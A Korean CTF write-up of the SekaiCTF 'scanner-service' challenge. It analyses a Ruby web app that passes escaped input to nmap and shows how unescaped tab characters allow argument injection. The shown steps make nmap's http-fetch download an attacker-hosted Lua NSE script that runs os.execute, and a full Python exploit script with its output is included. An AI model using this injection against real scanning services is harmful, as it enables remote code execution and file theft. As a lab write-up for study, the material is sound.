


# scanner-service (25.08.11)

## 문제 환경 구성


```docker
docker build -t sekai_web_scanner .
docker run  --name=sekai_web_scanner --rm -p1337:1337 -it sekai_web_scanner
```

## Description


```
> You know how to nmap?
>
> ❖ **Note**  
> Unauthorized use of this service to scan targets without proper authorization is strictly prohibited.
```

### 초기 화면



## Background


- command injection
- nmap 옵션
    - script scanning
    
    ```
    스크립트 스캔:
      --script-args-file=filename: 파일에 NSE 스크립트 인수를 제공
    ```
    
    - NSE: 동일한 스크립트를 자주 작성하는 경우 파일을 지정해 nmap 스크립트 내용을 자동화 할 수 있음, 
    —script 옵션을 통해 NSE 파일 안에 있는 명령어 사용 가능
    
    [Options Summary | Nmap Network Scanning](https://nmap.org/book/man-briefoptions.html)
    
    - http-fetch
    
    ```python
    --script http-fetch: 서버에서 파일을 가져오는 데 사용
    --script http-fetch.destination: 파일을 저장할 디렉토리의 전체 경로를 입력하며, 끝에 슬래시를 붙이는 것이 좋습니다.
    --script http-fetch.url: 가져오기를 시작할 기본 URL입니다. 기본값: "/"
    ```
    
    [http-fetch NSE script — Nmap Scripting Engine documentation](https://nmap.org/nsedoc/scripts/http-fetch.html)
    
- NSE 파일
    - **Nmap Security Scanner Scripting Engine File**을 의미
    - Nmap 네트워크 스캐너에서 사용되는 스크립트 파일

## 코드분석


### scanner.rb

```python
require 'sinatra/base' # Sinatra 웹 프레임워크를 사용하기 위한 기본 설정
require_relative '../helper/scanner_helper' # 스캐너 헬퍼 모듈을 불러오기

class ScanController < Sinatra::Base # Sinatra::Base를 상속받아 ScanController 클래스 정의

  configure do # Sinatra 설정
    set :views, "app/views" # 뷰 파일이 위치한 디렉토리 설정
    set :public_dir, "public" # 정적 파일이 위치한 디렉토리 설정
  end

  get '/' do # 루트 경로에 대한 GET 요청 처리
    erb :'index'
  end

  post '/' do # 루트 경로에 대한 POST 요청 처리
    input_service = escape_shell_input(params[:service]) # 입력된 서비스 정보를 쉘 명령어로 안전하게 변환
    hostname, port = input_service.split ':', 2 # 입력된 서비스 정보를 호스트네임과 포트로 분리
    begin 
      if valid_ip? hostname and valid_port? port  # 호스트네임과 포트가 유효한지 검사
        # Service up?
        s = TCPSocket.new(hostname, port.to_i)  # TCP 소켓을 생성하여 호스트네임과 포트에 연결 시도
        s.close 
        # Assuming valid ip and port, this should be fine
        @scan_result = IO.popen("nmap -p #{port} #{hostname}").read 
        # nmap 명령어를 사용하여 호스트네임과 포트에 대한 스캔 결과를 읽어옴, 
        # IO.popen을 사용하여 커맨드 실행
      else 
        @scan_result = "Invalid input detected, aborting scan!" 
        # 호스트네임이나 포트가 유효하지 않으면 에러 메시지 설정
      end 
    rescue Errno::ECONNREFUSED # 연결이 거부된 경우
      @scan_result = "Connection refused on #{hostname}:#{port}"
    rescue => e
      @scan_result = e.message
    end

    erb :'index'
  end

end

```

### scanner_helper.rb

```python
def valid_port?(input) # 포트 번호가 유효한지 검사하는 메소드
  !input.nil? and (1..65535).cover?(input.to_i) # 입력이 nil이 아니고 1부터 65535 사이의 값인지 확인
end

def valid_ip?(input) # IP 주소가 유효한지 검사하는 메소드, IPv4 주소의 형식이 올바른지 검증
  pattern = /\A((25[0-5]|2[0-4]\d|[01]?\d{1,2})\.){3}(25[0-5]|2[0-4]\d|[01]?\d{1,2})\z/ # 정규 표현식을 사용하여 IP 주소 형식 검사
  !input.nil? and !!(input =~ pattern) 
end

# chatgpt code :-) 
def escape_shell_input(input_string) # 쉘 명령어로 안전하게 변환하는 메소드
  escaped_string = '' # 변환된 문자열을 저장할 변수 초기화
  input_string.each_char do |c| # 입력 문자열의 각 문자에 대해 반복
    case c
    when ' '
      escaped_string << '\\ ' # 공백 문자는 백슬래시와 함께 추가
    when '$'
      escaped_string << '\\$' # 달러 기호는 백슬래시와 함께 추가
    when '`' 
      escaped_string << '\\`' # 백틱 기호는 백슬래시와 함께 추가
    when '"'
      escaped_string << '\\"' # 큰따옴표는 백슬래시와 함께 추가
    when '\\'
      escaped_string << '\\\\' # 백슬래시는 두 개의 백슬래시로 이스케이프
    when '|'
      escaped_string << '\\|' # 파이프 기호는 백슬래시와 함께 추가
    when '&'
      escaped_string << '\\&' # 앰퍼샌드 기호는 백슬래시와 함께 추가
    when ';'
      escaped_string << '\\;' # 세미콜론은 백슬래시와 함께 추가
    when '<'
      escaped_string << '\\<' # 작은따옴표는 백슬래시와 함께 추가
    when '>'
      escaped_string << '\\>' # 큰따옴표는 백슬래시와 함께 추가
    when '('
      escaped_string << '\\(' # 여는 괄호는 백슬래시와 함께 추가
    when ')'
      escaped_string << '\\)' # 닫는 괄호는 백슬래시와 함께 추가
    when "'"
      escaped_string << '\\\'' # 작은따옴표는 백슬래시와 함께 추가
    when "\n"
      escaped_string << '\\n' # 줄바꿈 문자는 백슬래시와 함께 추가
    when "*"
      escaped_string << '\\*' # 별표 기호는 백슬래시와 함께 추가
    else
      escaped_string << c # 그 외의 문자는 그대로 추가
    end
  end

  escaped_string # 변환된 문자열 반환
end

```

## 익스플로잇


### 취약점 분석

- scanner.rb에서 사용자의 입력을`IO.popen`  함수를 이용해 커맨드로 사용
    
    → command injection 취약점 발생
    
- 단, scanner.rb에서 대부분의 특수문자를 escape 처리함.
    
    → 직접적인 command injection은 불가능함, 예외로 \t 은 escape 처리가 되지 않음
    
- nse 파일을 서버에 삽입해 nmap 스캔 옵션으로 실행하게 끔

### 익스플로잇 단계

### 1. nse 파일을 생성

```bash
echo "os.execute('cat /flag*')" > exploit.nse # lua 언어
```

### 2. nmap 스캔을 할 수 있도록 서버 실행

```bash
python3 -m http.server 
```

### 3. nmap을 실행해 파일을 옮김

```bash
[방법1] 문제 페이지에 직접 삽입 -> 안됨, 직접 삽입하면 url encoding 상태로 넘어가기 때문에 안되는듯
<본인ip>:<본인port>\t--script\thttp-fetch\t-Pn\t--script-args\thttp-fetch.destination=/tmp/hi,http-fetch.url=exploit.nse

[방법2] curl 명령어 사용
curl -X POST \
     --data-binary $
     'service=<본인ip>:<본인port>\t--script\thttp-fetch\t-Pn\t--script-ar
     gs\thttp-fetch.destination=/tmp/hi,http-fetch.url=exploit.nse'
     \
     <target_domain>
```
- [방법1] 결과




- [방법2] 결과
```bash
ijebin@ijebin-ui-MacBookPro Sekai_CTF % curl -X POST \
     --data-binary $'service=192.168.64.1:8000\t--script\thttp-fetch\t-Pn\t--script-args\thttp-fetch.destination=/tmp/hi,http-fetch.url=exploit.nse' 192.168.64.5:1337
<!DOCTYPE html>
<html>
<head>
  <title>Scanner Service</title>
  <link rel="stylesheet" href="stylesheets/style.css">
</head>
<body>
<div class="wrapper">

  <div class="center-text">
    <h1 class="title">Vulnerability Scanner</h1>
    <form action="/" method="post">
      <p>Enter your Target</p><br>
      <input type="text" name="service" value="" placeholder="IP-Address:Port">
      <input type="submit" value="Scan">
    </form>
  </div>

  
    <pre class="result"> <code>Starting Nmap 7.92 ( https://nmap.org ) at 2025-08-10 15:49 UTC
Nmap scan report for 192.168.64.1
Host is up (0.0013s latency).

PORT     STATE SERVICE
8000/tcp open  http-alt
|_http-fetch: Successfully Downloaded Everything At: /tmp/hi/192.168.64.1/8000/

Nmap done: 1 IP address (1 host up) scanned in 2.02 seconds
</code></pre>
  
</div>
</body>
</html>
```

### 4. exploit.nse 실행

```bash
 curl -X POST 3 --data-binary \
 $'service=<본인IP>:<본인IP>\t--script=/tmp/hi/<본인IP>/<본인IP>/exploit.nse' \
 <target_domain>/
```

### 5. FLAG 획득

```bash
ijebin@ijebin-ui-MacBookPro Sekai_CTF %  curl -X POST 3 --data-binary \
 $'service=192.168.64.1:8000\t--script=/tmp/hi/192.168.64.1/8000/exploit.nse' 192.168.64.5:1337/
curl: (7) Failed to connect to 0.0.0.3 port 80 after 1 ms: Couldn't connect to server
<!DOCTYPE html>
<html>
<head>
  <title>Scanner Service</title>
  <link rel="stylesheet" href="stylesheets/style.css">
</head>
<body>
<div class="wrapper">

  <div class="center-text">
    <h1 class="title">Vulnerability Scanner</h1>
    <form action="/" method="post">
      <p>Enter your Target</p><br>
      <input type="text" name="service" value="" placeholder="IP-Address:Port">
      <input type="submit" value="Scan">
    </form>
  </div>

  
    <pre class="result"> <code>Starting Nmap 7.92 ( https://nmap.org ) at 2025-08-10 16:00 UTC
SEKAI{4r6um3n7_1nj3c710n_70_rc3!!}</code></pre>
  
</div>
</body>
</html>
```

### 익스플로잇 코드(writeup 코드)

```bash
#!/usr/bin/python3
import requests
import random
import string
import time
import sys
import re

def random_string(length=10):
    return "".join(random.choice(string.ascii_lowercase) for _ in range(length))

if len(sys.argv) < 3:
    print(f"Usage: {sys.argv[0]} <lhost> <lport>")
    exit(1)

TARGET = "http://scanner-service.chals.sekai.team/"
LHOST = sys.argv[1]
LPORT = int(sys.argv[2])
NSE_SCRIPT = "evil.nse"
DOWNLOAD_DIR = "/tmp/" + random_string()

with open(NSE_SCRIPT, "w") as f:
    f.write("os.execute('cat /flag*')")

# download nse script
requests.post(
    TARGET,
    data=f"service={LHOST}:{LPORT} --script http-fetch -Pn --script-args http-fetch.destination={DOWNLOAD_DIR},http-fetch.url={NSE_SCRIPT}".replace(
        " ", "\t"
    ),
)

print("You should now receive a request on your http server")

time.sleep(5)

# execute nse script
response = requests.post(
    TARGET,
    data=f"service={LHOST}:{LPORT} --script={DOWNLOAD_DIR}/{LHOST}/{LPORT}/{NSE_SCRIPT}".replace(
        " ", "\t"
    ),
)

matches = re.search(r"SEKAI\{[^\}]+\}", response.text)
if matches:
    print("Flag:", matches.group(0))
else:
    print("We failed?")

```

## 핵심 정리 (본 문제에서 알아가야할 내용)

- nmap을 이용한 command injection
- lua 언어